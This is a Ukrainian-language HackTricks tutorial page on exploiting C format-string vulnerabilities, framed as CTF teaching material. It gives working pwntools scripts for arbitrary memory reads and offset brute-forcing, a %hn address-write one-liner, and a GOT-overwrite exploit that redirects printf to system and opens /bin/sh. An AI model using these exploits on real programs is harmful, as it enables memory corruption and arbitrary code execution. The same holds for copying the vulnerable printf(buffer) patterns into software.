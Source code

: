 # Форматні рядки

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

У C **`printf`** є функція, яка може бути використана для **виведення** деякого рядка. **Перший параметр**, який очікує ця функція, - це **сирий текст з форматами**. **Наступні параметри**, які очікуються, - це **значення** для **заміни** **форматів** з сирого тексту.

Інші вразливі функції - це **`sprintf()`** та **`fprintf()`**.

Вразливість виникає, коли **текст зловмисника використовується як перший аргумент** для цієї функції. Зловмисник зможе створити **спеціальний вхід, зловживаючи** можливостями **форматного рядка printf** для читання та **запису будь-яких даних за будь-якою адресою (читабельною/записуваною)**. Таким чином, він зможе **виконувати довільний код**.

#### Формати:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Приклади:**

* Вразливий приклад:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Нормальне використання:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* З відсутніми аргументами:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf вразливий:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Доступ до вказівників**

Формат **`%<n>$x`**, де `n` - це число, дозволяє вказати printf вибрати n параметр (з стеку). Тож, якщо ви хочете прочитати 4-й параметр зі стеку, використовуючи printf, ви можете зробити:
```c
printf("%x %x %x %x")
```
і ви б читали з першого до четвертого параметра.

Або ви могли б зробити:
```c
printf("%4$x")
```
і безпосередньо прочитати четвертий.

Зверніть увагу, що атакуючий контролює параметр `pr`**`intf`**, що в основному означає, що** його введення буде в стеку, коли буде викликано `printf`, що означає, що він може записувати конкретні адреси пам'яті в стек.

{% hint style="danger" %}
Атакуючий, який контролює цей ввід, зможе **додати довільну адресу в стек і змусити `printf` отримати до них доступ**. У наступному розділі буде пояснено, як використовувати цю поведінку.
{% endhint %}

## **Довільне Читання**

Можливо використовувати форматер **`%n$s`**, щоб змусити **`printf`** отримати **адресу**, що знаходиться на **n позиції**, слідуючи за нею, і **друкувати її так, ніби це рядок** (друкувати до тих пір, поки не буде знайдено 0x00). Отже, якщо базова адреса бінарного файлу **`0x8048000`**, і ми знаємо, що введення користувача починається з 4-ї позиції в стеці, можливо надрукувати початок бінарного файлу за допомогою:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Зверніть увагу, що ви не можете поставити адресу 0x8048000 на початку введення, оскільки рядок буде обірвано на 0x00 в кінці цієї адреси.
{% endhint %}

### Знайти зсув

Щоб знайти зсув до вашого введення, ви можете надіслати 4 або 8 байтів (`0x41414141`), за якими слідує **`%1$x`** і **збільшувати** значення, поки не отримаєте `A's`.

<details>

<summary>Брутфорс зсуву printf</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Як корисно

Випадкові читання можуть бути корисними для:

* **Вивантаження** **бінарного** файлу з пам'яті
* **Доступу до конкретних частин пам'яті, де зберігається чутлива** **інформація** (як-от канарейки, ключі шифрування або користувацькі паролі, як у цьому [**CTF виклику**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Випадкове записування**

Форматер **`$<num>%n`** **записує** **кількість записаних байтів** за **вказаною адресою** в параметрі \<num> у стеку. Якщо зловмисник може записати стільки символів, скільки захоче, за допомогою printf, він зможе змусити **`$<num>%n`** записати випадкове число за випадковою адресою.

На щастя, щоб записати число 9999, не потрібно додавати 9999 "A" до введення, для цього можна використовувати форматер **`%.<num-write>%<num>$n`**, щоб записати число **`<num-write>`** за **адресою, на яку вказує позиція `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Однак, зверніть увагу, що зазвичай для запису адреси, такої як `0x08049724` (що є ВЕЛИЧЕЗНИМ числом для запису одночасно), **використовується `$hn`** замість `$n`. Це дозволяє **записати лише 2 байти**. Тому ця операція виконується двічі: один раз для найвищих 2B адреси і ще раз для найнижчих.

Отже, ця вразливість дозволяє **записувати що завгодно в будь-яку адресу (произвольний запис).**

У цьому прикладі метою буде **перезаписати** **адресу** **функції** в таблиці **GOT**, яка буде викликана пізніше. Хоча це може зловживати іншими техніками произвольного запису для виконання:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Ми будемо **перезаписувати** **функцію**, яка **отримує** свої **аргументи** від **користувача** і **вказує** на **функцію** **`system`**.\
Як згадувалося, для запису адреси зазвичай потрібно 2 кроки: спочатку ви **записуєте 2 байти** адреси, а потім інші 2. Для цього використовується **`$hn`**.

* **HOB** викликається для 2 вищих байтів адреси
* **LOB** викликається для 2 нижчих байтів адреси

Потім, через те, як працює формат рядка, вам потрібно **спочатку записати найменший** з \[HOB, LOB\], а потім інший.

Якщо HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Якщо HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

Ви можете знайти **шаблон** для підготовки експлойту для цього типу вразливості в:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Або цей базовий приклад з [**тут**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Форматні рядки до BOF

Можливо зловживати діями запису вразливості форматного рядка, щоб **записувати в адреси стеку** та експлуатувати вразливість типу **переповнення буфера**.

## Інші приклади та посилання

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 біт, без relro, без canary, nx, без pie, базове використання форматних рядків для витоку прапора зі стеку (немає потреби змінювати потік виконання)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 біт, relro, без canary, nx, без pie, форматний рядок для перезапису адреси `fflush` з функцією win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 біт, relro, без canary, nx, без pie, форматний рядок для запису адреси всередині main в `.fini_array` (щоб потік повертався ще раз) та запису адреси до `system` в таблиці GOT, що вказує на `strlen`. Коли потік повертається до main, `strlen` виконується з введенням користувача і вказує на `system`, він виконає передані команди.

{% hint style="success" %}
Вчіть та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіть та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
